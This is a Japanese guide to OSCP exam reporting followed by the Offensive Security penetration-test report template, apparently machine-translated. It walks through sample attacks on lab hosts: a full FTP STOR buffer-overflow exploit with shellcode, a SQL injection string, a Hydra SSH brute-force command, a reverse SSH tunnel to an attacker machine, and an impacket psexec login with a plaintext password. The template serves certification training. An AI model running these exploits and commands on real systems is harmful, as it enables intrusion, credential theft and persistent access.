









上記でレポートの大まかな流れはつかめるかと思いますが、特に以下3点が重要です。
- 侵入の道筋を再現可能な形で記述する
    - 要はコピペでシェル取得や権限昇格を読み手が再現できるようにするということです
    - 使用したパブリックエクスプロイトのソースコードに関しても記載しなければなりません。
- 侵入した結果、エクスプロイト取得元等の「証拠」を明確に記載する
    - 侵入が成功した際の画面キャプチャ、エクスプロイトコードのURLを指します。
- フラグとIPのスクショを忘れずに
    - 合格の要件として、インタラクティブなシェルからフラグの内容とipconfigやifconfigなどを出力した画面キャプチャをレポートに含める必要があります
    - 試験時にフラグを取得したら該当画像を忘れず収めましょう

* * *

# 攻撃的安全保障   OSCPペネトレーションテスト報告書   
v. 2.0   
student@youremailaddress.com   
OSID: XXXXX   
   
Copyright © 2022 Offensive Security Ltd. All rights reserved.無断転載を禁じます。   
本書の一部または全部を、Offensive Securityの書面による事前の許可なしに、複写およびその他のすべての複製、ネットワークまたはその他の通信手段を用いた転送または伝送、遠隔学習のための放送、情報保存、伝送または検索システムなどのいかなる形式または手段によっても、複製、複写、転送またはその他の著作権所有者に帰属するいかなる権利も行使してはなりません。

目次   
## 1.攻撃型セキュリティ OSCP 試験 ペネトレーションテスト報告書	3   
1.1 はじめに	3   
1.2 目標	3   
1.3 必要条件	3   
## 2.ハイレベル・サマリー	5   
2.1 おすすめポイント	5   
## 3.方法論	5   
3.1 情報収集	5   
3.2 サービス列挙	6   
3.3 ペネトレーション	6   
3.4 アクセスの維持	6   
3.5 ハウスクリーニング	6   
## 4.自主的な取り組み	7   
4.1 ターゲット#1 - 172.16.203.134	7   
4.1.1 サービス列挙	7   
4.1.2 初期アクセス - バッファオーバーフロー	7   
4.1.3 特権エスカレーション - MySQL インジェクション	10   
4.1.3 ポスト・エクスプロイテーション	11   
## 5.Active Directoryセット	12   
5.1 Ajla - 10.4.4.10	12   
5.1.1 初期アクセス - パスワードのブルートフォースメント	12    
5.1.2 特権エスカレーション - Sudo グループ	13   
5.1.3 ポスト・エクスプロイテーション	14   
5.2 家禽類 - 10.5.5.20	15   
5.2.1 初期アクセス - RDPログイン	15   
5.2.2 ポスト・エクスプロイテーション	15   
5.3 dc - 10.5.5.30	16   
5.3.1 初期アクセス - リモートコマンドの実行	16   
5.3.2 ポスト・エクスプロイテーション	17   


## **1.攻めるセキュリティ OSCP試験 ペネトレーションテスト報告書**   

>**1.1 はじめに**    
>
>Offensive Security Lab and Examのペネトレーションテストレポートには、Offensive Securityコースに合格するために>行われたすべての取り組みが含まれています。このレポートには、試験全体に合格するために使用されたすべての項目>が含まれている必要があり、試験のすべての側面に対する正しさと完全性の観点から評価されます。このレポートの目>的は、Offensive Security認定プロフェッショナルの資格に合格するための技術的な知識だけでなく、侵入テストの方法>論を完全に理解していることを確認することです。    
>
>**1.2 目的**    
>
>この評価の目的は、Offensive Security Lab および Exam のネットワークに対して内部侵入テストを実行することで>す。受講者は、目的目標へのアクセスを得るために、方法論に従ったアプローチをとることが課せられます。このテストは、実際の侵入テストをシミュレートし、全体的なレポートを含め、最初から最後までどのように始めるかをシミュレートする必要があります。このドキュメントの後半に、このコースに合格するために必要な情報を提供するサンプルページがすでに作成されています。サンプルレポートをガイドラインとして、レポートを作成してください。
>
>**1.3 要求事項**     
>
>受講者は、このペネトレーションテスト報告書を完全に記入し、以下の項目を含めることが要求されます。    
>- 全体的なハイレベルの要約と提言（非技術的なもの）    
>- メソドロジーのウォークスルーと実施したステップの詳細なアウトライン    
>- 各所見には、スクリーンショット、チュートリアル、サンプルコード、proof.txt（該当する場合）が含まれます。
>- その他、含まれていない項目があれば     

## **2.ハイレベル・サマリー**    

John Doeは、Offensive Security Labsに対して、内部侵入テストを行うことを依頼されました。内部侵入テストとは、内部に接続されたシステムに対する専用の攻撃です。このテストの焦点は、ハッカーと同様の攻撃を行い、Offensive Securityの内部ラボシステム（THINC.localドメイン）に侵入しようとすることです。Johnの全体的な目的は、ネットワークを評価し、システムを特定し、Offensive Securityに調査結果を報告しながら欠陥を突くことでした。   
内部侵入テストを実施したところ、Offensive Securityのネットワークにいくつかの憂慮すべき脆弱性が確認されました。攻撃を行う際、Johnは複数のマシンにアクセスすることができましたが、これは主に、古いパッチやセキュリティ設定の不備が原因でした。  テスト中、Johnは複数のシステムに対して管理者レベルのアクセス権を持っていました。すべてのシステムで攻撃が成功し、アクセスが許可されました。     

**2.1 提言**     

Johnは、テスト中に特定された脆弱性に対してパッチを適用し、攻撃者が将来これらのシステムを悪用できないようにすることを推奨しています。これらのシステムには頻繁なパッチ適用が必要であり、一度パッチを適用した後は、後日発見される追加の脆弱性を保護するために、定期的にパッチプログラムを適用し続ける必要があることを、ひとつ覚えておいてください。

## **3.方法論**     

Johnは、Offensive Security Labsと試験環境がどの程度安全であるかをテストするために有効な、広く採用されている侵入テストのアプローチを利用しました。以下は、ジョンがどのように様々なシステムを特定し、悪用したかを示すもので、発見された個々の脆弱性もすべて含まれています。     

**3.1 情報収集**    

侵入テストの情報収集の部分では、侵入テストの範囲を特定することに重点を置いています。この侵入テストでは、John は研究室と試験のネットワークを悪用することを課されました。具体的な IP アドレスは次のとおりです。

**受験ネットワーク**    

172.16.203.133, 172.16.203.134, 172.16.203.135, 172.16.203.136

**3.2 サービス列挙**

侵入テストのサービス列挙の部分は、システムまたはシステム上でどのサービスが生きているかについての情報を収集することに重点を置いています。これは、システムへの潜在的な攻撃ベクトルに関する詳細な情報を提供するため、攻撃者にとっては貴重なものです。システム上でどのようなアプリケーションが動作しているかを理解することで、攻撃者は、実際のペネトレーションテ ストを実施する前に必要な情報を得ることができます。  場合によっては、一部のポートが表示されないことがあります。    

**3.3 ペネトレーション**    

侵入テストは、さまざまなシステムにアクセスすることに重点を置いた評価です。今回の侵入テストでは、Johnは50のシステムのうち10へのアクセスを成功させることができました。      

**3.4 アクセスの維持**    

システムへのアクセスを維持することは、攻撃者である私たちにとって重要です。侵入テストのアクセス維持フェーズでは、焦点となる攻撃（バッファオーバーフローなど）が発生した後、再びシステ ムに対する管理アクセスを確保することに焦点を当てます。多くのエクスプロイトが一度しか実行できない可能性があり、エクスプロイトを実行した後、システムに戻ることができないかもしれません。    
Johnは、侵害されたすべてのシステムで、管理者およびルートレベルのアカウントを追加しました。管理者/ルートアクセスに加えて、追加のアクセスを確立できるようにするために、Metasploitのmeterpreterサービスがマシンにインストールされました。    

**3.5 ハウスクリーニング**

アセスメントのハウスクリーニングでは、侵入テストの痕跡を確実に除去します。ツールやユーザーアカウントの断片が組織のコンピュータに残っていることがよくありますが、これは将来的にセキュリティ上の問題を引き起こす可能性があります。私たちが細心の注意を払い、侵入テストの残骸を残さないようにすることが重要です。    
ラボネットワークと試験用ネットワークの両方でのトロフィーが完了した後、Johnはすべてのユーザーアカウントとパスワード、およびシステムにインストールされているMeterpreterのサービスを削除しました。Offensive Securityは、システムからユーザーアカウントやサービスを削除する必要がないはずです。    

## **4.自主的な取り組み**     

**4.1 ターゲット#1 - 172.16.203.134**   

#### **4.1.1 サービス列挙**   
ポートスキャン結果   
|IPアドレス|ポート開放|
|:--|:--|
|172.16.203.134|tcp：22、79、80、105、106、110、135、139、143、445、2224、3306、3389|    

FTP列挙   
利用可能なFTPサービスを手動で列挙したところ、そのサービスが古いバージョン2.3.4を実行しており、リモートバッファオーバーフローの脆弱性があることに気づきました。   

#### 4.1.2 初期アクセス - バッファオーバーフロー    

***脆弱性の説明***：Ability Server 2.34 には、STOR フィールドにバッファオーバーフローの脆弱性が存在します。攻撃者はこの脆弱性を利用して、リモートで任意のコードを実行させ、システムを完全に制御することが可能です。   
***脆弱性の修正***：Ability Serverの発行元は、この既知の問題を修正するパッチを発行しました。このパッチは、http://www.code-crafters.com/abilityserver/ にあります。   
***深刻度***:<span style="color:red;">致命的</span>    
***攻撃を再現するための手順***：オペレーティングシステムが、既知の公開エクスプロイトと異なっていた。コード実行を成功させるためには、書き換えたエクスプロイトが必要でした。エクスプロイトを書き換えた後、標的型攻撃を行い、Johnがシステムに対する完全な管理者権限を持つようにしました。    
**Proof of Conceptコード**：既存のエクスプロイトの修正箇所を赤色でハイライトしています。    
```
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow   
# Advanced, secure and easy to use FTP Server. 
# 21 Oct 2004 - muts                                      
###################################
# D:\BO>ability-2.34-ftp-stor.py                       
###################################
# D:\data\tools>nc -v 127.0.0.1 4444               
# localhost [127.0.0.1] 4444 (?) open               
# Microsoft Windows XP [Version 5.1.2600]        
# (C) Copyright 1985-2001 Microsoft Corp.        
# D:\Program Files\abilitywebserver>                
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n" 
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1') 
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer) 
except:
print "\nDone."
```

**4.1.3 権限昇格 - MySQL インジェクション**   
脆弱性の説明ターゲットに足場を築いた後、Johnはローカルで実行されている複数のアプリケーションに気づきました。そのうちの1つ、ポート80のカスタムWebアプリケーションはSQLインジェクション攻撃を受ける傾向がありました。Chiselを使用してポート転送を行うことで、JohnはこのWebアプリケーションにアクセスすることができました。侵入テストを実施する際、John は、taxid クエリ文字列パラメータに対するエラーベースの MySQL インジェクションに気づきました。テーブルデータを列挙している間に、John は暗号化されていないデータベースのルートアカウントのログイン情報とパスワード情報を抽出することに成功し、それはシステムの管理ユーザーアカウントのユーザー名とパスワードのアカウントとも一致しました。これにより、オペレーティング・システムだけでなく、システムに含まれるすべてのデータの侵害に成功しました。    

***脆弱性の修正***: これはカスタムのウェブアプリケーションであるため、特定のアップデートではこの問題を適切に解決することはできません。このアプリケーションは、ユーザーが入力したデータを適切にサニタイズし、ユーザーが限定されたユーザーアカウントで実行されていることを確認し、SQL データベース内に保存された機密データが適切に暗号化されるようにプログラムされる必要があります。エラーが表示されない場合、攻撃者が弱点を突くことが難しくなるため、カスタムエラーメッセージを使用することを強く推奨します。    
**深刻度**：<span style="color:red;">致命的</span>    

**攻撃を再現するための手順**    
```
SELECT * FROM login WHERE id = 1 or 1=1 AND user LIKE "%root%"
```
**スクリーンショット**   


**4.1.3 ポストエクスプロイテーション**    
**システム証明のスクリーンショット**    


## **5. Active Directory**   
ポートスキャン結果   
|IPアドレス|ポート開放|
|:--|:--:|
|10.4.4.10|TCP：22、80|
|10.5.5.20|tcp：135、139、445、3389|
|10.5.5.30|tcp：53、88、135、139、389、445、464、593、636、3268、3269、3389|
   
**5.1 Ajla - 10.4.4.10**   
**5.1.1 初期アクセス - パスワードのブルートフォースメント**   
**脆弱性の説明**：Ajla ホストのユーザアカウントは、ブルートフォースで 5 分以内にクラックされるような些細なパスワードで保護されていました。     
**脆弱性の修正**：SSH サービスは、パスワードによるログインを受け付けないように設定し、ユーザーアカウント自体には、一般に公開されているワードリストに含まれない固有のパスワードを設定する必要があります。    
**深刻度**：<span style="color:red;">致命的</span>    
この攻撃を再現するための手順：最初のサービススキャンで、JohnはこのホストがAjlaと呼ばれていることを発見しました。ターゲットのIPを/etc/hostsファイルに追加した後、HydraツールはIPの代わりにマシンのDNS名を使用してSSHサービスに対して実行されました。抽出されたパスワードを手元に置いて、JohnはSSHを使用してajlaとしてログインすることができました。
```
hydra -l ajla -P /home/kali/rockyou.txt -T 20 sandbox.local ssh     
```


**5.1.2 特権エスカレーション - Sudoグループ**   
**脆弱性の説明**：sudoグループは、このグループに属する任意のユーザーが、そのユーザーのパスワードを知っていれば、rootに特権を昇格させることができます。     
**脆弱性の修正**：SSH サービスは、パスワードによるログインを受け付けないように設定し、ユーザーアカウント自体には、一般に公開されているワードリストに含まれない固有のパスワードを設定する必要があります。    
**深刻度**：<span style="color:red;">致命的</span>    
**攻撃を再現するための手順**：ログインして "id "コマンドを使用すると、すぐにajlaユーザーがsudoグループのメンバーであることを発見しました。また、ユーザーのパスワードを知っていたため、rootシェルを取得するために「sudo su」コマンドを1つだけ使用する必要がありました。

**5.1.3 ポストエクスプロイテーション**    
**System Proofのスクリーンショット**    

証明ファイルを収集し、SSHを使用してバックドアを確立した後、Johnは興味深いファイルが存在しないか、ファイルシステムの列挙を開始しました。彼は、10.5.5.20のIPから発信されたマウントされた共有があることに気付きました。彼は、/mnt/scriptsディレクトリのカスタムsysreport.ps1スクリプトを検査し、「sandbox」ユーザーの平文資格情報を発見しました。このディレクトリのスクリプトの種類とユーザー名の構造を考慮すると、「Poultry」ホストはActive Directory環境の一部であるようです。   



Johnは、SSHを使った逆ダイナミックポートフォワーディングを確立することで、横方向の動きを開始しました。まず、彼は新しいSSH鍵のペアを生成し、それをKali VMのauthorized_keysファイルに追加しました。そして、SSHポート転送コマンドを1つ発行するだけでよかったのです。   
```
ssh-keygen -t rsa -N '' -f ~/. ssh/key
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key kali@192.168.119.164
```
ダイナミックリバーストンネルが確立されたので、Johnはポート1080を使用するために/etc/proxychains.confを編集するだけでよかったのです。   
**5.2 家禽類 - 10.5.5.20**   
**5.2.1 初期アクセス - RDPログイン**   

手元にある証明書と逆方向のトンネルを確立し、Johnはproxychainsを使用してRDPセッションに接続し、プロンプトが表示されたら証明書を受け入れ、その後取得したパスワードを入力しました。   
```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard   
```
5.2.2 ポストエクスプロイテーション    
ローカルプルーフのスクリーンショット     


JohnはユーザーのデスクトップにThunderbirdのプログラムがあることに気づき、Alexの受信トレイを確認したところ、ローカル管理者Rogerからのメールを発見したのです。

**5.3 dc - 10.5.5.30**   
**5.3.1 初期アクセス - リモートコマンドの実行**   
攻撃を再現するための手順Johnは、管理者がAlexのために残した仮のパスワードを再利用することができました。
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py admin:UWyBGeTp3Bhw7f@10.5.5.30   


**5.3.2 ポストエクスプロイテーション**   
**システム証明のスクリーンショット**   




* * *
* * *
- [ ] vuln0-192.168.1.73
- [ ] nmap
- [ ] MoinMoin Wiki
- [ ] Port 80
- [ ] Searchsploit
- [ ] Exploit
- [ ] LinEnum
- [ ] PrivEsc
- [ ] Proof 